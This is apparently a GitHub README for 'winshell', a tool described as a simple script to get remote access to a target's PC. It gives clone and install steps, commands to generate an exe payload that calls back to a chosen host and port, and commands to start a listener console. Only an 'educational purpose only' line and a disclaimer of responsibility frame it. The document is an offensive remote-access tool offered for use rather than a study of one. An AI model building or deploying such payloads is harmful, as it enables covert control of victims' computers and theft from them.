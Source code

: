 # winshell
Simple script to get remote access to targets PC


Educational purpose only             
------------------------------------------

I'm not responsible for your actions 


Download and Run
------------------------
git clone https://github.com/EH30/winshell   
cd winshell   
pip install -r requirements.txt   
Genrate exe file: python winshell.py -l [You're Host/IP] -p [You're Port] --name [You're file Name]   
Listener console: python winshell.py -l [You're Host/IP] -p [You're Port] --console 1   




Genrating exe File Example: python winshell.py -l [You're Host/IP] -p [You're Port] --name [You're file Name]
Run this command it will open console for Listening: python winshell.py -l [You're Host/IP] -p [You're Port] --console 1


Console Example
---------------------------------------------   
Command Example: python winshell.py -l 127.0.0.1 -p 9999 --console 1   
--------------------------------------------------------------------------------   
<img src="https://github.com/EH30/winshell/blob/master/winshells_console_example.JPG" >   
   
   
   

Generating exe file Example
--------------------------------------------------------------   
Command Example: python winshell.py -l 127.0.0.1 -p 9999 --name shell   
----------------------------------------------------------------------------------------------------   
<img src="https://github.com/EH30/winshell/blob/master/winshell_exe_shell_example.JPG">   

<img src="https://github.com/EH30/winshell/blob/master/winshell_exe_example.JPG">   


